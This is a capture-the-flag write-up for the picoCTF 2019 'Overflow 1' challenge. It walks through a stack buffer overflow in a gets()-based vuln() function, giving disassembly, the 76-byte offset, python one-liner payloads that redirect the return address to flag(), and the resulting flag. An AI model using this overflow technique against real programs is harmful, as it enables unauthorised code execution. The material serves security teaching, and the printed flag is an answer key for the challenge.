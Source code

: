 # Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```c
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` assembly
 0x08048671 <+18>:    sub    esp,0xc
 0x08048674 <+21>:    lea    eax,[ebp-0x48]
 0x08048677 <+24>:    push   eax
 0x08048678 <+25>:    call   0x8048430 <gets@plt>
 0x0804867d <+30>:    add    esp,0x10
 0x08048680 <+33>:    call   0x8048714 <get_return_address>

```
So we need to give an input of 0x48 bytes + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```console
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"C"*4)' | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0x43434343 !
Segmentation fault (core dumped)

```

Now , Instead of 4 C's we add in the address of the flag() function in the little endian format.
``` console
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!
